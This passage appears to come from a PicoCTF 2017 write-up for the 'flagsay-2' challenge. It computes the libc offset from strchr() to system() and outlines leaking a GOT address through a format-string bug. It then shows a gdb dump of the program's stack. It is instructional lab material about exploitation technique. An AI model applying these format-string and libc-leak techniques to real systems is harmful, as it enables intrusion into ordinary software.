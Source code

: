 We can use a python command to do the math and print the resulting offset in hex.

```
$ python -c "print '{0:02x}'.format(0xf7e5a3e0 - 0xf7e957f0)"
-3b410
$
```

This can be used to calculate the address of ```system()``` from the leaked runtime address of ```strchr()```. We will leak this address using the ```%s``` format specifier. We have a problem, the string that is input by the user is stored in the heap. Therefore, we will have to use existing stack addresses to build a pointer to the GOT address of ```strchr()```. Let's dump the stack and see what we can use.

```
$ gdb flagsay-2 -q
Reading symbols from flagsay-2...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/robbie/PicoCTF2017/binary_exploitation/level4/flagsay_2/flagsay-2
^C
Program received signal SIGINT, Interrupt.
0xf7fd9d70 in __kernel_vsyscall ()
(gdb) x/200x $sp
0xffffd3a8:     0xf7e1b700      0x00000400      0xf7fd7000      0xf7ef7d03
0xffffd3b8:     0xf7fc5000      0xf7e8b163      0x00000000      0xf7fd7000
0xffffd3c8:     0x00000400      0xf7ffd938      0xf7fc5420      0xf7fc5000
0xffffd3d8:     0xf7eff859      0xf7fc5000      0xf7fc5c20      0x00000357
0xffffd3e8:     0xf7fc5c20      0xf7e8c039      0xf7fc5c20      0xffffd418
0xffffd3f8:     0xffffd410      0x080482b7      0xf7ffd938      0x00000000
0xffffd408:     0xf7fc5c20      0xf7e8be6b      0xf7fc5c20      0x00000000
0xffffd418:     0xf7e230c8      0xf7fc9000      0x00005d26      0xf7fc5000
0xffffd428:     0x00000000      0xf7e803da      0xf7fc5c20      0x00020ca1
0xffffd438:     0x00000360      0x00000000      0x00000000      0x00000fff
0xffffd448:     0x0804a008      0x0804a000      0x00000370      0xf7ffd000
0xffffd458:     0xf7ffd938      0xf7fc5000      0xf7fc5c20      0x0804a008
0xffffd468:     0x00000000      0xf7e80517      0xf7fc5c20      0x0804a008
0xffffd478:     0x00000357      0x0000000a      0x00000001      0x00000000
0xffffd488:     0xffffd4a4      0x08049974      0x08048288      0x080481e8
0xffffd498:     0x00000000      0xf7e7f371      0xf7fc5c20      0x0804a008
0xffffd4a8:     0x00000357      0x0000000a      0x00000001      0xf7fc5000
0xffffd4b8:     0x00000000      0xf7e1b700      0xffffd508      0xf7ff0470
0xffffd4c8:     0xf7fc5c20      0xf7fc5000      0x00000000      0x00000000
0xffffd4d8:     0xffffd508      0x0804867e      0x0804a008      0x00000358
0xffffd4e8:     0xf7fc5c20      0x08048722      0x00000001      0x0804a368
0xffffd4f8:     0x0804a008      0x00000358      0xf7fc53c4      0xffffd520
0xffffd508:     0x00000000      0xf7e35a63      0x080486d0      0x00000000
0xffffd518:     0x00000000      0xf7e35a63      0x00000001      0xffffd5b4
0xffffd528:     0xffffd5bc      0xf7feac3a      0x00000001      0xffffd5b4
0xffffd538:     0xffffd554      0x08049988      0x08048288      0xf7fc5000
0xffffd548:     0x00000000      0x00000000      0x00000000      0x846f5c8a
0xffffd558:     0xbd71589a      0x00000000      0x00000000      0x00000000
0xffffd568:     0x00000001      0x08048470      0x00000000      0xf7ff0470
0xffffd578:     0xf7e35979      0xf7ffd000      0x00000001      0x08048470
0xffffd588:     0x00000000      0x08048491      0x080485da      0x00000001
0xffffd598:     0xffffd5b4      0x080486d0      0x08048740      0xf7feb0f0
0xffffd5a8:     0xffffd5ac      0x0000001c      0x00000001      0xffffd6e1
0xffffd5b8:     0x00000000      0xffffd729      0xffffd73c      0xffffd74c
0xffffd5c8:     0xffffd757      0xffffd780      0xffffd7a2      0xffffd7b5
0xffffd5d8:     0xffffd7c1      0xffffdd5a      0xffffdd66      0xffffde08
0xffffd5e8:     0xffffde1e      0xffffde23      0xffffde65      0xffffde8a
0xffffd5f8:     0xffffde9b      0xffffdee1      0xffffdeea      0xffffdefc
0xffffd608:     0xffffdf04      0xffffdf13      0xffffdf46      0xffffdf6a
0xffffd618:     0xffffdf89      0x00000000      0x00000020      0xf7fd9d60
0xffffd628:     0x00000021      0xf7fd9000      0x00000010      0xbfebfbff
0xffffd638:     0x00000006      0x00001000      0x00000011      0x00000064
```
